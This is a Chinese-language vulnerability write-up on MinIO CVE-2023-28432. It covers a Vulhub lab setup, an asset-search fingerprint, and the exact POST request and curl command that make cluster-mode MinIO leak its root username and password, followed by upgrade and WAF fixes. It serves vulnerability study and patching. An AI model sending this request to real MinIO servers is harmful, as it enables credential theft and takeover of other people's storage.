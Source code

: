 # MinIO 集群模式信息泄露漏洞 CVE-2023-28432

## 漏洞描述

MinIO是一个开源对象存储系统。

在其`RELEASE.2023-03-20T20-16-18Z`版本（不含）以前，集群模式部署下存在一处信息泄露漏洞，攻击者可以通过发送一个POST数据包获取进程所有的环境变量，其中就包含账号密码`MINIO_ROOT_USER`和`MINIO_ROOT_PASSWORD`。

参考链接：

- https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q
- https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ

## 漏洞影响

```
MinIO <= RELEASE.2023-03-20T20-16-18Z
```

## 网络测绘

```
app="minio"
```

## 环境搭建

Vulhub执行如下命令启动一个MinIO集群，其中包含3个以集群模式运行的服务：

```
docker-compose up -d
```

集群启动后，访问`http://your-ip:9001`可以查看Web管理页面，访问`http://your-ip:9000`是API服务。

![image-20230504102151673](images/image-20230504102151673.png)

## 漏洞复现

这个漏洞存在于API节点`http://your-ip:9000/minio/bootstrap/v1/verify`上，发送如下数据包即可查看泄露的环境变量：

```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![image-20230504102419760](images/image-20230504102419760.png)

也可以直接 curl：

```
curl -XPOST http://your-ip:9000/minio/bootstrap/v1/verify
```

可见，其中包含`MINIO_ROOT_USER (accessKey)`和`MINIO_ROOT_PASSWORD (secretKey)`。使用这个账号密码，即可成功登录管理后台：

```
MINIO_ROOT_USER		minioadmin
MINIO_ROOT_PASSWORD	minioadmin-vulhub
```

![image-20230504102729716](images/image-20230504102729716.png)

## 漏洞修复

目前官方已发布安全修复版本，受影响用户可以升级到RELEASE.2023-03-20T20-16-18Z 及以上版本。

https://github.com/minio/minio/releases/tag/RELEASE.2023-03-20T20-16-18Z

临时修复方案，在 waf/ips 等安全产品上配置策略，拒绝所有 post 到 `/minio/bootstrap/v1/verify` 流量。
